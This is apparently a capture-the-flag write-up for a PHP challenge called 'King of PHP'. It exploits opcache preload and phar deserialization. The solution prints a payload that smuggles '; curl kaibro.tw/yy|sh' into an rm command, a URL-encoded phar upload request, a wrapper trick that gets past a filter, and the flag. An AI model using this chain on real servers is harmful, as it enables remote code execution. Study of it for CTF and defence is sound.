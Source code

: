 # King of PHP

## Description:

> PHP is so easy, right?

> compress.zlib://phar://xxx

preload.php:

```php
<?php

class InitialOperation {

    private $path = "/tmp/*";

    function __destruct() {
        exec("rm ".$this->path);
    }

}
```

## Solution:

php 7.4 supports opcache preload. This can be seen in `phpinfo()` or `php.ini`.

First, use `file_put_contents()` to upload phar.

- bypass length limit: input c as an array
- bypass filter for prefix "p": use any available php wrapper. E.g. `compress.zlib://phar:///xxxxxx`

Payload:

```php
<?php

class InitialOperation {

    private $path = "/tmp/123; curl kaibro.tw/yy|sh";

    function __destruct() {
        exec("rm ".$this->path);
    }

}

@unlink("phar.phar");
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$o = new InitialOperation();
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```

Upload phar:

```
/?c[]=%3C%3Fphp+__HALT_COMPILER%28%29%3B+%3F%3E%0D%0A%96%00%00%00%01%00%00%00%11%00%00%00%01%00%00%00%00%00%60%00%00%00O%3A16%3A%22InitialOperation%22%3A1%3A%7Bs%3A22%3A%22%00InitialOperation%00path%22%3Bs%3A30%3A%22%2Ftmp%2F123%3B+curl+kaibro.tw%2Fyy%7Csh%22%3B%7D%08%00%00%00test.txt%04%00%00%00lU%19%5E%04%00%00%00%0C%7E%7F%D8%B4%01%00%00%00%00%00%00testCR%0A%922%01%91%AC%01f%87%82%AC%C6i%CE%3Bg%1F8%02%00%00%00GBMB
```

Trigger deserialization:

```
/?f=compress.zlib://phar:///tmp/xxxxxxxxx
```

`FLAG{oh_php7.4_preload_so__coool!}`
